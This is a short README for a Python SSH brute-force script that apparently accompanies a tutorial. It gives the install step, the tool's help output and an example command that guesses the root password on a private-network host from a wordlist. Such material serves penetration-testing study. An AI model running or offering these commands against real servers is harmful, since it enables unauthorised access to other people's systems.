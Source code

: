 # [How to Brute-Force SSH Servers in Python](https://www.thepythoncode.com/article/brute-force-ssh-servers-using-paramiko-in-python)
To run this:
- `pip3 install -r requirements.txt`
- 
    ```
    python bruteforce_ssh.py --help
    ```
    **Outputs:**
    ```
    usage: bruteforce_ssh.py [-h] [-P PASSLIST] [-u USER] host

    SSH Bruteforce Python script.

    positional arguments:
    host                  Hostname or IP Address of SSH Server to bruteforce.

    optional arguments:
    -h, --help            show this help message and exit
    -P PASSLIST, --passlist PASSLIST
                            File that contain password list in each line.
    -u USER, --user USER  Host username.
    ```
- If you want to bruteforce against the server `192.168.1.101` for example, the user `root` and a password list of `wordlist.txt`:
    ```
    python bruteforce_ssh.py 192.168.1.101 -u root -P wordlist.txt
    ```